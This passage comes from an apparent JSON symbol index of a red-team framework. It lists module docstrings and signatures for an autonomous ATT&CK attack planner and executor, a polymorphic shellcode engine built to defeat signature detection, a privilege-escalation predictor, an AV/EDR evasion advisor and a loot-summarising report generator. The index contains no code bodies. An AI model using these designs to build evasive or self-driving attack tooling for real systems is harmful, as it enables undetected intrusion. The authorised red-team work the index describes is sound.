planner — decides the next ability to run.  The planner queries :class:`modules.world_model.WorldModel` for the current facts, :class:`modules.obs_parser.ObsParser` for fresh findings, and :class:`modules.playbook_engine.PlaybookEngine` for the candidate abilities pulled from STIX2 + Atomic Red Team. It then applies a deterministic ranking rule (no LLM dependency) to pick the best next step.  Why this exists separately from ``PlaybookEngine``: - ``PlaybookEngine.derive()`` produces a *batch* playbook at planning time. The planner picks a *single* next step at runtime. - The planner respects observed facts (e.g. \"smb signing disabled\") and gates techniques that depend on them.  Ranking rule (transparent, no LLM): score = base + matched_fact_bonus - risk_penalty where: base            : 100 matched_fact    : +25 per required fact the world model satisfies confidence      : + author-rating (heuristic from technique description) risk_penalty    : -20 if technique is loud/destructive  If ``api_key`` is set, the planner can delegate re-ranking to the LLM as a tie-breaker only.", "id": "modules/planner.py", "kind": "module", "label": "planner.py", "language": "py", "sha256": "a431f95fa53ad636", "symbol_count": 28, "symbols": [{"kind": "class", "line": 41, "name": "PlanCandidate", "signature": "class PlanCandidate"}, {"doc": "Ranked planning outcome for one target.", "kind": "class", "line": 54, "name": "PlanResult", "signature": "class PlanResult"}, {"doc": "Collect a flat list of fact-type strings from world model + obs parser.", "kind": "function", "line": 64, "name": "_gather_facts", "signature": "def _gather_facts(world_model, obs_parser)"}, {"kind": "function", "line": 160, "name": "_risk_for", "signature": "def _risk_for(technique_id)"}, {"kind": "function", "line": 225, "name": "_score_step", "signature": "def _score_step(step, facts)"}, {"doc": "Fact-based next-ability selector.\n\nArgs:\n    world_model: Lazy-initialised callable returning a WorldModel.\n    obs_parser:  Lazy-initialised callable returning an ObsParser.\n    api_key:     Optional LLM key for tie-breaking only.", "kind": "class", "line": 260, "name": "Planner", "signature": "class Planner"}, {"doc": "Return a fact-based planner with an optional LLM tie-break key.", "kind": "function", "line": 446, "name": "get_planner", "signature": "def get_planner(api_key)"}, {"doc": "One serial step in a multi-step chain with named requirements.", "kind": "class", "line": 452, "name": "TodoItem", "signature": "class TodoItem"}, {"doc": "Dependency-safe todo sequence shared across planner wake-ups.\n\nThe planner records a serial exploit chain once (for example\ncredential capture before lateral movement) and the engine only\nemits the step whose requirements are already satisfied.", "kind": "class", "line": 460, "name": "TodoList", "signature": "class TodoList"}, {"doc": "Per-target intent queue fed by planner wake-ups.\n\nEach wake-up emits zero or more untried intents. Most wake-ups emit\nzero, which tells the engine there is no new direction and it should\nstop instead of re-running fallbacks. A facts fingerprint detects\nwhether the world changed since the last wake-up.", "kind": "class", "line": 505, "name": "Frontier", "signature": "class Frontier"}, {"kind": "method", "line": 269, "name": "__init__", "signature": "def __init__(self, world_model, obs_parser, api_key)"}, {"kind": "method", "line": 279, "name": "_wm", "signature": "def _wm(self)"}, {"kind": "method", "line": 294, "name": "_parser", "signature": "def _parser(self)"}, {"doc": "Return a ranked list of next-step candidates for *target*.\n\nArgs:\n    target: The IP/hostname being engaged.\n    max_candidates: How many candidates to return.\n\nReturns:\n    :class:`PlanResult` with ranked candidates and the chosen one.", "kind": "method", "line": 313, "name": "plan", "signature": "def plan(self, target, max_candidates)"}, {"kind": "method", "line": 374, "name": "_build_rationale", "signature": "def _build_rationale(chosen, facts, target)"}, {"kind": "method", "line": 387, "name": "_llm_tiebreak", "signature": "def _llm_tiebreak(self, target, facts, candidates)"}, {"kind": "method", "line": 413, "name": "to_dict", "signature": "def to_dict(self, result)"}, {"doc": "Initialize an empty todo sequence.", "kind": "method", "line": 468, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Append a step and return it.", "kind": "method", "line": 472, "name": "todo_add", "signature": "def todo_add(self, name, requires)"}, {"doc": "Mark a step done when its requirements hold.", "kind": "method", "line": 478, "name": "todo_done", "signature": "def todo_done(self, name)"}, {"doc": "Return the first pending step whose requirements hold.", "kind": "method", "line": 489, "name": "next_ready", "signature": "def next_ready(self)"}, {"doc": "Return True when a tactic must wait for an unfinished chain.", "kind": "method", "line": 497, "name": "blocks", "signature": "def blocks(self, tactic)"}, {"doc": "Bind the frontier to a planner and an optional todo list.", "kind": "method", "line": 514, "name": "__init__", "signature": "def __init__(self, planner, todos)"}, {"doc": "Expose the shared todo list.", "kind": "method", "line": 523, "name": "todos", "signature": "def todos(self)"}, {"doc": "Return the tried technique identifiers.", "kind": "method", "line": 528, "name": "tried", "signature": "def tried(self)"}, {"doc": "Plan fresh intents, keeping only untried and unblocked ones.", "kind": "method", "line": 532, "name": "refill", "signature": "def refill(self, target, max_intents)"}, {"doc": "Claim the oldest queued intent and mark its technique tried.", "kind": "method", "line": 551, "name": "pop", "signature": "def pop(self)"}, {"doc": "Return the queued intent count.", "kind": "method", "line": 560, "name": "__len__", "signature": "def __len__(self)"}]}, {"doc": "modules/playbook_engine.py =========================== Bridges MITRE ATT&CK (STIX2), Atomic Red Team, WorldModel, and LLMClient into a closed autonomous execution cycle.  Workflow -------- 1.  derive(target, phase) -> Playbook - Resolve MITRE tactics for the current phase - Query STIX2 enterprise-attack store for techniques under those tactics - Filter by target platform (linux / windows / macos from WorldModel) - Match techniques to Atomic Red Team YAML test files - Ask LLM to select and rank the most relevant N tests (optional) - Return a Playbook ready for execution  2.  execute(playbook, executor) -> PlaybookResult - Run each PlaybookStep via the provided executor callable - Parse output with ObsParser -> update WorldModel - Record outcome per step - Return full PlaybookResult  3.  save(playbook, path) / load(path) -> Playbook - Persist / restore playbooks as YAML (compatible with existing format)  Design ------ - Single Responsibility : PlaybookEngine composes, not executes (executor is injected) - Open/Closed           : new tactic mappings via PHASE_TACTIC_MAP extension", "id": "modules/playbook_engine.py", "kind": "module", "label": "playbook_engine.py", "language": "py", "sha256": "cacae209bfe3723d", "symbol_count": 31, "symbols": [{"kind": "class", "line": 101, "name": "PlaybookStep", "signature": "class PlaybookStep"}, {"kind": "class", "line": 133, "name": "Playbook", "signature": "class Playbook"}, {"kind": "class", "line": 165, "name": "StepResult", "signature": "class StepResult"}, {"kind": "class", "line": 173, "name": "PlaybookResult", "signature": "class PlaybookResult"}, {"doc": "Loads the enterprise ATT&CK STIX2 bundle into a queryable in-memory store.", "kind": "class", "line": 185, "name": "_StixLoader", "signature": "class _StixLoader"}, {"doc": "Indexes Atomic Red Team YAML files by technique ID.\nReturns concrete test definitions keyed by technique (T1059.001, etc.).", "kind": "class", "line": 254, "name": "_AtomicIndex", "signature": "class _AtomicIndex"}, {"doc": "Uses LLMClient to rank and select the most relevant techniques given\nWorldModel context. Falls back to returning the first N if LLM unavailable.", "kind": "class", "line": 311, "name": "_TechniqueSelector", "signature": "class _TechniqueSelector"}, {"doc": "Derives, executes, saves, and loads structured ATT&CK-grounded playbooks.\n\nParameters\n----------\nworld_model  : WorldModel instance (created lazily if None)\nobs_parser   : ObsParser instance (created lazily if None)\napi_key      : Groq API key for LLM-based technique selection\ntop_n        : maximum number of steps per generated playbook", "kind": "class", "line": 375, "name": "PlaybookEngine", "signature": "class PlaybookEngine"}, {"doc": "Return (or create) the module-level singleton PlaybookEngine.", "kind": "function", "line": 660, "name": "get_engine", "signature": "def get_engine(api_key)"}, {"kind": "method", "line": 113, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 128, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"kind": "method", "line": 141, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 152, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"kind": "method", "line": 188, "name": "__init__", "signature": "def __init__(self, json_path)"}, {"kind": "method", "line": 192, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 195, "name": "store", "signature": "def store(self)"}, {"doc": "Return ATT&CK techniques matching the given tactic shortnames.", "kind": "method", "line": 210, "name": "techniques_for_tactics", "signature": "def techniques_for_tactics(self, tactic_shortnames, platform)"}, {"kind": "method", "line": 260, "name": "__init__", "signature": "def __init__(self, atomics_path)"}, {"kind": "method", "line": 264, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 267, "name": "build", "signature": "def build(self)"}, {"kind": "method", "line": 300, "name": "tests_for_technique", "signature": "def tests_for_technique(self, technique_id, platform)"}, {"kind": "method", "line": 317, "name": "select", "signature": "def select(self, candidates, world_context, target, phase, api_key, top_n)"}, {"kind": "method", "line": 387, "name": "__init__", "signature": "def __init__(self, world_model, obs_parser, api_key, top_n)"}, {"kind": "method", "line": 404, "name": "_world_model", "signature": "def _world_model(self)"}, {"kind": "method", "line": 415, "name": "_obs_parser", "signature": "def _obs_parser(self)"}, {"doc": "Generate a Playbook for *target* at the given *phase*.\n\nIf phase is None, derives it from the WorldModel.\nIf platform is None, infers from WorldModel os_hint.", "kind": "method", "line": 427, "name": "derive", "signature": "def derive(self, target, phase, platform, apt_name)"}, {"doc": "Execute a Playbook step by step.\n\nParameters\n----------\nplaybook  : the Playbook to run\nexecutor  : callable(command: str, host: str) -> output: str\ndry_run   : if True, print commands without executing", "kind": "method", "line": 529, "name": "execute", "signature": "def execute(self, playbook, executor, dry_run)"}, {"doc": "Persist playbook to YAML (compatible with existing playbooks/ format).", "kind": "method", "line": 590, "name": "save", "signature": "def save(self, playbook, path)"}, {"doc": "Load a playbook from YAML. Supports both new extended format and legacy format.", "kind": "method", "line": 602, "name": "load", "signature": "def load(self, path)"}, {"doc": "Return a human-readable / LLM-readable summary of a PlaybookResult.", "kind": "method", "line": 631, "name": "result_summary", "signature": "def result_summary(self, result)"}, {"kind": "function", "line": 713, "name": "_local_executor", "signature": "def _local_executor(command, host)"}]}, {"doc": "Playbook Executor — bridges MITRE ATT&CK playbooks to the pipeline engine.  Reads YAML playbooks from ``playbooks/``, maps atomic test procedures to LazyOwn shell commands, and either executes them through the pipeline engine or generates a runnable pipeline spec for manual review.  Architecture: PlaybookLoader   — parses and validates playbook YAML. TTPMapper         — resolves technique_id + atomic_test to LazyOwn commands. PlaybookEngine    — orchestrates execution via PipelineEngine or dry-run.", "id": "modules/playbook_executor.py", "kind": "module", "label": "playbook_executor.py", "language": "py", "sha256": "294f6ef7dcdcbf60", "symbol_count": 25, "symbols": [{"doc": "One technique (sub)phase within a playbook.", "kind": "class", "line": 36, "name": "PlaybookTechnique", "signature": "class PlaybookTechnique"}, {"doc": "A loaded, validated playbook document.", "kind": "class", "line": 48, "name": "PlaybookSpec", "signature": "class PlaybookSpec"}, {"doc": "Summary of one playbook execution.", "kind": "class", "line": 61, "name": "PlaybookRunResult", "signature": "class PlaybookRunResult"}, {"doc": "Resolves a MITRE technique + atomic test to a LazyOwn command.", "kind": "class", "line": 93, "name": "ITTPMapper", "signature": "class ITTPMapper(ABC)"}, {"doc": "Maps known technique IDs to LazyOwn commands via a dictionary.\n\nThe mapping is extensible; operators can register additional commands\nat runtime via ``register``.", "kind": "class", "line": 101, "name": "DefaultTTPMapper", "signature": "class DefaultTTPMapper(ITTPMapper)"}, {"doc": "Parses playbook YAML files into PlaybookSpec objects.", "kind": "class", "line": 203, "name": "PlaybookLoader", "signature": "class PlaybookLoader"}, {"doc": "Generate a pipelines/<name>.yaml string from a playbook spec.", "kind": "function", "line": 285, "name": "_build_pipeline_yaml", "signature": "def _build_pipeline_yaml(playbook, mapper, platform)"}, {"doc": "Orchestrates playbook analysis, pipeline generation, and execution.", "kind": "class", "line": 336, "name": "PlaybookEngine", "signature": "class PlaybookEngine"}, {"doc": "Return a JSON array of available playbooks.", "kind": "function", "line": 416, "name": "playbook_list", "signature": "def playbook_list()"}, {"doc": "Return a JSON summary of one playbook.", "kind": "function", "line": 422, "name": "playbook_analyze", "signature": "def playbook_analyze(name, platform)"}, {"doc": "Generate a runnable pipeline from a playbook. Returns the path.", "kind": "function", "line": 429, "name": "playbook_generate", "signature": "def playbook_generate(name, platform)"}, {"doc": "Analyze, generate, and execute a playbook. Returns a JSON summary.", "kind": "function", "line": 436, "name": "playbook_run", "signature": "def playbook_run(name, platform, target, onecmd)"}, {"kind": "method", "line": 74, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Return a LazyOwn shell command string or None if unmapped.", "kind": "method", "line": 97, "name": "resolve", "signature": "def resolve(self, technique_id, atomic_test, platform)"}, {"doc": "Add a new technique-to-command mapping.", "kind": "method", "line": 180, "name": "register", "signature": "def register(cls, technique_id, platform, command)"}, {"kind": "method", "line": 185, "name": "resolve", "signature": "def resolve(self, technique_id, atomic_test, platform)"}, {"kind": "method", "line": 208, "name": "__init__", "signature": "def __init__(self, playbooks_dir)"}, {"doc": "Return every discoverable playbook name.", "kind": "method", "line": 211, "name": "list", "signature": "def list(self)"}, {"doc": "Load and validate a playbook by name.", "kind": "method", "line": 224, "name": "load", "signature": "def load(self, name)"}, {"kind": "method", "line": 235, "name": "_validate", "signature": "def _validate(self, raw, source_path)"}, {"kind": "method", "line": 339, "name": "__init__", "signature": "def __init__(self, loader, mapper, pipelines_dir)"}, {"kind": "method", "line": 350, "name": "loader", "signature": "def loader(self)"}, {"doc": "Analyze a playbook: count techniques, automated vs manual, coverage.", "kind": "method", "line": 353, "name": "analyze", "signature": "def analyze(self, name, platform)"}, {"doc": "Generate a pipeline YAML file from a playbook.\n\nReturns the path to the generated pipeline file.", "kind": "method", "line": 378, "name": "generate_pipeline", "signature": "def generate_pipeline(self, name, platform)"}, {"doc": "Generate and execute a pipeline from a playbook.\n\nRequires the pipeline engine to be available. When *onecmd* is\nprovided, commands execute inside the caller's shell.", "kind": "method", "line": 390, "name": "run", "signature": "def run(self, name, platform, target, onecmd)"}]}, {"doc": "Polymorphic code generation engine — shellcode mutation and obfuscation.  Transforms shellcode through multiple mutation passes: NOP-equivalent substitution, register reassignment, instruction reordering, junk code insertion, XOR/ROT encryption, and compression. Each generated variant is functionally equivalent but structurally unique — defeating static signature detection.  The engine tracks mutation entropy and produces audit logs for operators.", "id": "modules/polymorphic_engine.py", "kind": "module", "label": "polymorphic_engine.py", "language": "py", "sha256": "b05650e6c23cd33c", "symbol_count": 19, "symbols": [{"doc": "Configuration for polymorphic mutation passes.\n\nAttributes:\n    nop_substitution: Replace NOPs with random equivalents.\n    nop_insertion: Insert random NOP-equivalents between real instructions.\n    register_reassignment: Remap registers to unused equivalents.\n    instruction_reordering: Reorder independent instructions.\n    junk_insertion: Insert semantically-neutral junk code blocks.\n    junk_pct: Percentage of total output to fill with junk (0.0 to 0.5).\n    xor_encrypt: Apply XOR encryption layer with random key.\n    multi_xor: Use multiple XOR keys across chunks.\n    compress: zlib-compress payload before encryption.\n    base64_wrap: Wrap final output in base64 with decoder stub.\n    passes: Number of mutation passes (each pass applies all enabled transforms).\n    seed: Random seed for reproducibility (None = random).", "kind": "class", "line": 93, "name": "MutationConfig", "signature": "class MutationConfig"}, {"doc": "Output of a single mutation pass.\n\nAttributes:\n    data: Mutated shellcode bytes.\n    sha256: SHA-256 hash of the output.\n    entropy: Shannon entropy estimate (0.0-8.0).\n    size_ratio: Ratio of mutated size to original size.\n    pass_number: Which mutation pass this represents.\n    techniques_applied: List of techniques applied in this pass.", "kind": "class", "line": 126, "name": "MutationResult", "signature": "class MutationResult"}, {"doc": "Generate functionally-equivalent but structurally-unique shellcode variants.\n\nEach invocation of mutate() produces a different output for the same input,\ndefeating signature-based detection. Tracks all variants with audit hashes.\n\nAttributes:\n    config: Mutation pass configuration.\n    audit_log: Ordered list of MutationResult for all generated variants.", "kind": "class", "line": 146, "name": "PolymorphicEngine", "signature": "class PolymorphicEngine"}, {"kind": "method", "line": 159, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Apply all configured mutation passes to shellcode.\n\nArgs:\n    shellcode: Raw shellcode bytes to mutate.\n    arch: CPU architecture ('x64' or 'x86').\n\nReturns:\n    Mutated shellcode bytes.", "kind": "method", "line": 163, "name": "mutate", "signature": "def mutate(self, shellcode, arch)"}, {"kind": "method", "line": 184, "name": "_single_pass", "signature": "def _single_pass(self, data, arch, pass_num, original_size)"}, {"kind": "method", "line": 231, "name": "_nop_substitution", "signature": "def _nop_substitution(self, data, arch)"}, {"kind": "method", "line": 253, "name": "_nop_insertion", "signature": "def _nop_insertion(self, data, arch)"}, {"kind": "method", "line": 262, "name": "_register_reassignment", "signature": "def _register_reassignment(self, data, arch)"}, {"kind": "method", "line": 282, "name": "_junk_insertion", "signature": "def _junk_insertion(self, data, arch)"}, {"kind": "method", "line": 303, "name": "_xor_encrypt", "signature": "def _xor_encrypt(self, data, arch)"}, {"kind": "method", "line": 309, "name": "_multi_xor_encrypt", "signature": "def _multi_xor_encrypt(self, data)"}, {"kind": "method", "line": 324, "name": "_compress_data", "signature": "def _compress_data(self, data)"}, {"kind": "method", "line": 330, "name": "_base64_wrap", "signature": "def _base64_wrap(self, data, arch)"}, {"kind": "method", "line": 344, "name": "_estimate_entropy", "signature": "def _estimate_entropy(data)"}, {"doc": "Decode single-byte XOR encrypted shellcode.\n\nArgs:\n    data: XOR-encrypted bytes with key as last byte.\n\nReturns:\n    Decrypted shellcode bytes.", "kind": "method", "line": 361, "name": "decode_xor", "signature": "def decode_xor(data)"}, {"doc": "Decode multi-byte XOR encrypted shellcode.\n\nArgs:\n    data: Multi-XOR encrypted bytes with header.\n\nReturns:\n    Decrypted shellcode bytes.", "kind": "method", "line": 377, "name": "decode_multi_xor", "signature": "def decode_multi_xor(data)"}, {"doc": "Generate a self-decrypting stub shellcode template.\n\nThe stub decodes XOR-encrypted payload that follows it, then jumps\nto the decoded shellcode. This is the core of polymorphic wrapping.\n\nArgs:\n    arch: Target architecture ('x64' or 'x86').\n\nReturns:\n    Decoder stub shellcode bytes.", "kind": "method", "line": 397, "name": "generate_decoder_stub", "signature": "def generate_decoder_stub(self, arch)"}, {"doc": "Return a summary of all mutations applied.\n\nReturns:\n    Dict with variant count, entropy range, size ratios, and SHA-256 list.", "kind": "method", "line": 422, "name": "get_audit_summary", "signature": "def get_audit_summary(self)"}]}, {"doc": "Crystal Ball — privilege escalation vector prediction engine.  Parses system enumeration output (linpeas, winpeas, pspy) and kernel information to generate a ranked list of specific privilege escalation vectors with exact commands.  When an LLM backend is available the engine also analyses the target context through the model to surface vectors that keyword-based scanners often miss (e.g. subtle cron races, PATH-based hijacks in non-standard locations, LXD group membership, Docker socket access, etc.).", "id": "modules/privesc_predictor.py", "kind": "module", "label": "privesc_predictor.py", "language": "py", "sha256": "80bb4cb0e4eb8ec0", "symbol_count": 17, "symbols": [{"doc": "A single privilege escalation vector with ranked confidence.", "kind": "class", "line": 97, "name": "PrivescVector", "signature": "class PrivescVector"}, {"doc": "Parsed target system profile used for vector matching.", "kind": "class", "line": 114, "name": "SystemProfile", "signature": "class SystemProfile"}, {"doc": "Parse a kernel version string into a comparable tuple.\n\nArgs:\n    version_str: Raw kernel version (e.g. '5.15.0-91-generic').\n\nReturns:\n    Numeric tuple for comparison (e.g. (5, 15, 0, 91)).", "kind": "function", "line": 136, "name": "_parse_kernel_version", "signature": "def _parse_kernel_version(version_str)"}, {"doc": "Parse a min/max version string to a comparable tuple.\n\nArgs:\n    range_str: Version range boundary string.\n\nReturns:\n    Numeric tuple.", "kind": "function", "line": 153, "name": "_parse_version_from_range", "signature": "def _parse_version_from_range(range_str)"}, {"doc": "Extract a structured SystemProfile from linpeas output text.\n\nArgs:\n    text: Raw linpeas.sh stdout.\n\nReturns:\n    Populated SystemProfile instance.", "kind": "function", "line": 165, "name": "parse_linpeas_output", "signature": "def parse_linpeas_output(text)"}, {"doc": "Extract a structured SystemProfile from winpeas output text.\n\nArgs:\n    text: Raw winpeas.exe stdout.\n\nReturns:\n    Populated SystemProfile instance.", "kind": "function", "line": 218, "name": "parse_winpeas_output", "signature": "def parse_winpeas_output(text)"}, {"doc": "Match kernel version against the built-in CVE database.\n\nArgs:\n    profile: Parsed system profile with kernel_version set.\n\nReturns:\n    Matching privilege escalation vectors sorted by applicability.", "kind": "function", "line": 249, "name": "match_known_cves", "signature": "def match_known_cves(profile)"}, {"doc": "Generate privilege escalation vectors from SUID binaries.\n\nArgs:\n    profile: Parsed system profile.\n\nReturns:\n    Vectors for exploitable SUID binaries.", "kind": "function", "line": 287, "name": "suid_vectors", "signature": "def suid_vectors(profile)"}, {"doc": "Generate privilege escalation vectors from Linux capabilities.\n\nArgs:\n    profile: Parsed system profile with capabilities list.\n\nReturns:\n    Vectors based on dangerous capabilities.", "kind": "function", "line": 361, "name": "capability_vectors", "signature": "def capability_vectors(profile)"}, {"doc": "Generate privilege escalation vectors from group memberships.\n\nArgs:\n    profile: Parsed system profile with groups list.\n\nReturns:\n    Vectors based on special group memberships.", "kind": "function", "line": 463, "name": "group_vectors", "signature": "def group_vectors(profile)"}, {"doc": "Generate privilege escalation vectors from sudo rules.\n\nArgs:\n    profile: Parsed system profile with sudo rules.\n\nReturns:\n    Vectors for exploitable sudo configurations.", "kind": "function", "line": 501, "name": "sudo_vectors", "signature": "def sudo_vectors(profile)"}, {"doc": "Generate vectors from writable cron jobs and PATH manipulation.\n\nArgs:\n    profile: Parsed system profile.\n\nReturns:\n    Vectors based on cron misconfigurations.", "kind": "function", "line": 578, "name": "cron_vectors", "signature": "def cron_vectors(profile)"}, {"doc": "Load GTFOBins entries from the parquet knowledge base.\n\nReturns:\n    Mapping of binary name to description.", "kind": "function", "line": 617, "name": "_load_gtfobins_map", "signature": "def _load_gtfobins_map()"}, {"doc": "Use the configured LLM backend to suggest additional privesc vectors.\n\nArgs:\n    profile: Parsed system profile.\n\nReturns:\n    LLM-suggested vectors, or empty list if no backend is available.", "kind": "function", "line": 655, "name": "_try_llm_analysis", "signature": "def _try_llm_analysis(profile)"}, {"doc": "Main entry point — analyse a system for privilege escalation vectors.\n\nArgs:\n    filepath: Path to linpeas/winpeas output file.\n    text: Raw enumeration output text (alternative to filepath).\n\nReturns:\n    Dict with system_profile and ranked vectors.", "kind": "function", "line": 742, "name": "analyze_privesc", "signature": "def analyze_privesc(filepath, text)"}, {"doc": "Format the analysis result as a human-readable terminal report.\n\nArgs:\n    result: Output from :func:`analyze_privesc`.\n\nReturns:\n    Formatted multi-line string with ANSI colours.", "kind": "function", "line": 827, "name": "format_crystal_ball_output", "signature": "def format_crystal_ball_output(result)"}, {"doc": "CLI entry point for crystal ball privesc analysis.", "kind": "function", "line": 908, "name": "main", "signature": "def main()"}]}, {"doc": "Professional Red Team Report Generator.  Produces client-ready pentest/red-team reports in HTML, PDF, and Markdown formats. Reads from the world model, session data, and credential stores to auto-generate structured findings with CVSS scores, evidence, and remediation recommendations.  Architecture: DataCollector -> FindingClassifier -> RiskScorer -> ReportAssembler -> OutputWriter  Output formats: HTML  — standalone responsive page with collapsible sections and dark mode. PDF   — via wkhtmltopdf (if available) or weasyprint. MD    — markdown for further editing or wiki integration. JSON  — machine-readable findings for API/CI integration.  Security: No credentials in rendered reports by default — only usernames and hashes are included if ``include_credentials`` is explicitly set.  Usage: from modules.professional_report import RedTeamReportGenerator gen = RedTeamReportGenerator() gen.generate(output_dir=\"reports/\")", "id": "modules/professional_report.py", "kind": "module", "label": "professional_report.py", "language": "py", "sha256": "45aef3a96659f362", "symbol_count": 22, "symbols": [{"doc": "A single security finding for the report.", "kind": "class", "line": 87, "name": "ReportFinding", "signature": "class ReportFinding"}, {"doc": "Report header metadata.", "kind": "class", "line": 102, "name": "ReportMetadata", "signature": "class ReportMetadata"}, {"doc": "Generate professional red team reports from session data.\n\nPublic methods:\n    collect_data() -> dict\n    classify_findings(data) -> list[ReportFinding]\n    generate(output_dir, format) -> str", "kind": "class", "line": 114, "name": "RedTeamReportGenerator", "signature": "class RedTeamReportGenerator"}, {"kind": "method", "line": 173, "name": "__init__", "signature": "def __init__(self, include_credentials)"}, {"doc": "Collect all available engagement data from sessions directory.\n\nReturns:\n    Dict with world_model, scan_data, credentials, sessions, timeline.", "kind": "method", "line": 179, "name": "collect_data", "signature": "def collect_data(self)"}, {"doc": "Classify collected data into structured findings.\n\nArgs:\n    data: Data dict from collect_data().\n\nReturns:\n    List of classified ReportFinding objects.", "kind": "method", "line": 217, "name": "classify_findings", "signature": "def classify_findings(self, data)"}, {"doc": "Generate the report in the specified format.\n\nArgs:\n    output_dir: Directory to write the report.\n    output_format: One of html, pdf, md, json.\n    client_name: Client name for the header.\n    engagement_type: Engagement type string.\n    with_ai: When True, draft the executive summary with the LLM\n        backend (Groq/Ollama via ``llm_factory``).\n    ai_backend: Backend id passed to ``llm_factory``.\n\nReturns:\n    Path to the generated report.", "kind": "method", "line": 244, "name": "generate", "signature": "def generate(self, output_dir, output_format, client_name, engagement_type, with_ai, ai_backend)"}, {"doc": "Generate an HTML report.\n\nArgs:\n    out_path: Output directory path.\n    timestamp: Timestamp string for filename.\n\nReturns:\n    Path to the generated HTML file.", "kind": "method", "line": 298, "name": "_generate_html", "signature": "def _generate_html(self, out_path, timestamp)"}, {"doc": "Generate a Markdown report.\n\nArgs:\n    out_path: Output directory path.\n    timestamp: Timestamp string.\n\nReturns:\n    Path to the generated MD file.", "kind": "method", "line": 450, "name": "_generate_markdown", "signature": "def _generate_markdown(self, out_path, timestamp)"}, {"doc": "Generate a JSON report.\n\nArgs:\n    out_path: Output directory path.\n    timestamp: Timestamp string.\n\nReturns:\n    Path to the generated JSON file.", "kind": "method", "line": 513, "name": "_generate_json", "signature": "def _generate_json(self, out_path, timestamp)"}, {"doc": "Convert HTML report to PDF.\n\nArgs:\n    html_path: Path to HTML file.\n\nReturns:\n    Path to the generated PDF file.", "kind": "method", "line": 552, "name": "_html_to_pdf", "signature": "def _html_to_pdf(self, html_path)"}, {"doc": "Classify service data into findings.\n\nArgs:\n    services: List of service dicts from world model.\n    hosts: List of host dicts.\n\nReturns:\n    List of ReportFinding objects from services.", "kind": "method", "line": 585, "name": "_classify_services", "signature": "def _classify_services(self, services, hosts)"}, {"doc": "Classify vulnerability data into findings.\n\nArgs:\n    vulns: List of vulnerability dicts.\n    hosts: List of host dicts.\n\nReturns:\n    List of ReportFinding objects from vulns.", "kind": "method", "line": 640, "name": "_classify_vulnerabilities", "signature": "def _classify_vulnerabilities(self, vulns, hosts)"}, {"doc": "Classify credential data into findings.\n\nArgs:\n    credentials: List of credential lines.\n    hosts: List of host dicts.\n\nReturns:\n    List of ReportFinding objects from credentials.", "kind": "method", "line": 682, "name": "_classify_credentials", "signature": "def _classify_credentials(self, credentials, hosts)"}, {"doc": "Classify session data into findings.\n\nArgs:\n    sessions: List of session dicts.\n    hosts: List of host dicts.\n\nReturns:\n    List of ReportFinding objects from sessions.", "kind": "method", "line": 758, "name": "_classify_sessions", "signature": "def _classify_sessions(self, sessions, hosts)"}, {"doc": "Safely load a JSON file from sessions.\n\nArgs:\n    filename: Filename relative to sessions dir.\n\nReturns:\n    Parsed dict or empty dict.", "kind": "method", "line": 805, "name": "_load_json", "signature": "def _load_json(self, filename)"}, {"doc": "Extract scope from engagement data.\n\nArgs:\n    data: Engagement data dict.\n\nReturns:\n    List of scope strings.", "kind": "method", "line": 822, "name": "_extract_scope", "signature": "def _extract_scope(self, data)"}, {"doc": "Collect operator command history for the engagement timeline.\n\nSources: ``LazyOwn_history.dat`` and ``sessions/*.log`` tails.\n\nArgs:\n    max_entries: Maximum history lines to keep.\n\nReturns:\n    Ordered command history lines.", "kind": "method", "line": 841, "name": "collect_command_history", "signature": "def collect_command_history(self, max_entries)"}, {"doc": "Summarize exfiltrated loot without embedding sensitive content.\n\nScans ``sessions/`` loot artefacts (QuantumVault output, credential\nfiles, uploads) counting files and bytes per category. File names\nare kept, file contents are never included.\n\nReturns:\n    Dict with counts and total bytes per loot category.", "kind": "method", "line": 865, "name": "collect_loot_summary", "signature": "def collect_loot_summary(self)"}, {"doc": "Accumulate one loot file into the summary counters.\n\nArgs:\n    summary: Mutable loot summary dict.\n    path: Loot file path.", "kind": "method", "line": 893, "name": "_accumulate_loot", "signature": "def _accumulate_loot(self, summary, path)"}, {"doc": "Build the executive summary in business language.\n\nWithout AI this renders a deterministic template from finding\ncounts, loot stats, and command history depth. With ``with_ai``\nthe same context is sent to the ``llm_factory`` backend\n(Groq/Ollama) to draft financial-risk prose; any backend failure\nfalls back to the template so reporting never blocks.\n\nArgs:\n    data: Engagement data dict from ``collect_data``.\n    with_ai: Draft prose with the LLM backend.\n    ai_backend: Backend id for ``llm_factory``.\n\nReturns:\n    Executive summary string.", "kind": "method", "line": 911, "name": "generate_executive_summary", "signature": "def generate_executive_summary(self, data, with_ai, ai_backend)"}, {"doc": "Draft the executive summary with the configured LLM backend.\n\nArgs:\n    data: Engagement data dict.\n    fallback: Template text included as grounding context.\n    backend: Backend id for ``llm_factory``.\n\nReturns:\n    LLM-drafted summary, or empty string on failure.", "kind": "method", "line": 956, "name": "_ai_draft_summary", "signature": "def _ai_draft_summary(self, data, fallback, backend)"}]}, {"doc": "Obtener la versión del kernel actual", "id": "modules/r.sh", "kind": "module", "label": "r.sh", "language": "sh", "sha256": "9225d2f41ba80870", "symbol_count": 1, "symbols": [{"doc": "Función para descargar y extraer las fuentes del kernel", "kind": "function", "line": 10, "name": "download_kernel_sources"}]}, {"doc": "modules/reactive_engine.py =========================== Parses command output and produces concrete next-action recommendations: - PrivEsc advice (GTFOBins / LOLBas / lazyaddons YAML) - Evasion advice when AV/EDR signatures detected in output - Parquet technique lookup (Atomic Red Team + MITRE) - Output-driven state inference (new creds, new host, shells)  Design (SOLID) -------------- - Single Responsibility : OutputParser, PrivescAdvisor, EvasionAdvisor, ParquetLookup each own one concern. - Open/Closed           : new signal detectors via new SignalMatcher subclass. - Liskov                : all SignalMatcher subclasses honour Optional[Signal]. - Interface Segregation : ReactiveEngine exposes only analyse() to callers. - Dependency Inversion  : ReactiveEngine depends on AbstractSignalMatcher.", "id": "modules/reactive_engine.py", "kind": "module", "label": "reactive_engine.py", "language": "py", "sha256": "c364e5f05dfa3548", "symbol_count": 42, "symbols": [{"doc": "Return the contents of ``payload.json`` as a 